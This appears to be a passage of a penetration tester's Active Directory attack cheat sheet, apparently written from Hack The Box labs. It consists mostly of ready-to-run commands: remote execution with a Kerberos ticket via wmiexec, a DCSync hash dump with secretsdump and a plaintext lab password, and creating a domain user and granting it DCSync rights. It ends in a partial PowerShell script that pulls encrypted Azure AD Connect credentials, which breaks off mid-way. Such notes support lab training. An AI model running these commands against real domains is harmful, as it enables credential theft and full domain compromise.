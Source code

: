 ```
```
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```
- make sure `dc.intelligence.htb` is added to `/etc/host` before running

DC Sync Attack  ^8bdeef
- requirements: user creds with DCSync privileges
```
secretsdump.py -just-dc egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround\!@10.129.102.130
```
- will return admin hash
	- take part of hash after `:` and pass-the-hash with `-H` via `nxc` or `evil-winrm`
Can create new user to perform DC Sync if needed:
- `. .\PowerView.ps1`
- `net user zeus password /add /domain`
- `net users /domain`
	- make sure zeus is listed
- `net group "Exchange Windows Permissions" /add zeus`
	- adding zeus to group with DCSync privileges
- `net user zeus`
	- make sure group is listed
- `$pass = convertto-securestring 'password' -AsPlainText -Force`
- `New-Object System.Management.Automation.PSCredential('htb\zeus', $pass)`
- `Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity zeus -Rights DCSync`
	- if fails, re-import PowerView.ps1
- run `secretsdump.py` command above from kali


Azure Connect abuse ^b9f60c
- requires creds to a user with Azure Admins group membership
```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
